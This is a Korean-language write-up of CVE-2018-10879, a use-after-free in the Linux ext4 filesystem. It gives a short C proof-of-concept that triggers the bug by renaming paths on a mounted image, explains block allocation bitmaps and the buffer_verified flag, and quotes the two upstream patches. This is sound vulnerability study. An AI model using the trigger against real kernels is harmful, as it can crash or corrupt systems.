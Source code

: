 CVE-2018-10879
==============

### Use After-free detected by KASAN in Ext4

#### **<POC.C>**

```c
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <sys/xattr.h>
#include <dirent.h>
#include <errno.h>
#include <error.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <linux/falloc.h>
#include <linux/loop.h>
static void activity(char *mpoint) {
char *foo_bar_baz;
char *foo_baz;
int err;
err = asprintf(&foo_bar_baz, "%s/foo/bar/baz", mpoint);
err = asprintf(&foo_baz, "%s/foo/baz", mpoint);
rename(foo_bar_baz, foo_baz);
}
int main(int argc, char *argv[]) {
activity(argv[1]);
return 0;
}
```

<br>

---

### **Comment**

```
block 35는 block allocation bitmap으로 사용 된다.
```

**Block allocation이란?** <br>

모든 read-write 파일 시스템들은 파일에 배치할 때 문제가 발생한다. <br>

개별적으로 해결되야할 두가지 문제들이 존재한다. <br>

-	`free Block`을 찾는 과정 <br>
-	특정 파일의`데이터가 저장 되어있는` 블록을 기억하는 과정<br>

`extent`는 블록의 range를 첫번째 블록의 숫자와 블록의 range 길이를 명시한다.<br>

위 두가지 문제점들의 대안은 각 블록의 번호를 따로 보관하는 것인데, 보통은 더 많은 공간이 필요하지만 간단하다.<br>

그래서 많은 파일 시스템들은 `allocation bitmap`을 사용한다.<br>

파일을 구성하는 블록을 저장하는 전통적인 UNIX방법은 extent를 사용하지 않고 블록 번호 목록을 사용한다.<br>

처음에는 inode 구조에 저장된다.(direct block)<br>

이 공간이 차게 되면 한 블록이 추가 블록 번호를 저장하도록 할당 된다.<br>

이 간접 블록의 블록 번호만 inode구조에 저장된다.<br>

그 공간도 소진될시 이 방법을 반복적으로 적용하여 이중 간접 블록 또는 삼중 간접 블록으로 이어진다.<br>

**CVE-2018-10879**에서는 block 35번이 `allocation bitmap`으로 사용 되고 있다.<br>

그리고 그 블럭은 `buffer_verified flag`가 set되어 있다.<br>

그후에 `ext4_xattr_check_block()``을 호출 할시, code는`buffer_verified flag`를 체크하고 확인된 블록이라고 판단한다. 그에 따라 2가지 패치를 한다.<br>

**(1) ext4: add corruption check in ext4_xattr_set_entry()**<br>&nbsp;&nbsp;&nbsp; <b>http://patchwork.ozlabs.org/patch/928666/<br>**(2) ext4: always verify the magic number in xattr blocks** <br>&nbsp;&nbsp;&nbsp; <b>http://patchwork.ozlabs.org/patch/928667/<br>

---

### **Patch**

(1) xattr 버퍼를 `overrun`하지 않는지 확인하는 추가적인 체크를 추가했다.<br>

```c
static int ext4_xattr_set_entry(struct ext4_xattr_info *i,handle_t *handle, struct inode *inode, bool is_block)
{
 -struct ext4_xattr_entry *last;
 +struct ext4_xattr_entry *last, *next;
 struct ext4_xattr_entry *here = s->here;
 size_t min_offs = s->end - s->base, name_len = strlen(i->name);
 int in_inode = i->in_inode;
 static int ext4_xattr_set_entry(struct ext4_xattr_info *i,

    /* Compute min_offs and last. */
 last = s->first;
 -for (; !IS_LAST_ENTRY(last); last = EXT4_XATTR_NEXT(last)) {
 +for (; !IS_LAST_ENTRY(last); last = next) {
 +  next = EXT4_XATTR_NEXT(last);
 +  if ((void *)next >= s->end) {
 +          EXT4_ERROR_INODE(inode, "corrupted xattr entries");
 +          ret = -EFSCORRUPTED;
 +          goto out;
 ...
 +      }
```

(2) inode가 block allocation bitmap같은 다른 종류의 메타데이터 블록을 가리키는 경우에도,`buffer_verified flag`가 set될수 있다<br>

이러한 경우 외부의 attribute block을 만들수 있다.<br>

`verified flag`를 사용하는 이유는 지속적으로 재검증을 막기 위해서이다.<br>

하지만 xattr block의 `magic number`를 확인하는 작업은 많은 overhead가 걸리지 않고 `potential crash`들을 피할수 있다.<br>

```c
__ext4_xattr_check_block(struct inode *inode, struct buffer_head *bh)
 {
    int error = -EFSCORRUPTED;

-   if (buffer_verified(bh))
-       return 0;
-
    if (BHDR(bh)->h_magic != cpu_to_le32(EXT4_XATTR_MAGIC) ||
        BHDR(bh)->h_blocks != cpu_to_le32(1))
        goto errout;
+   if (buffer_verified(bh))
+       return 0;
+
    error = -EFSBADCRC;
    if (!ext4_xattr_block_csum_verify(inode, bh))
        goto errout;
    ...
  }
```
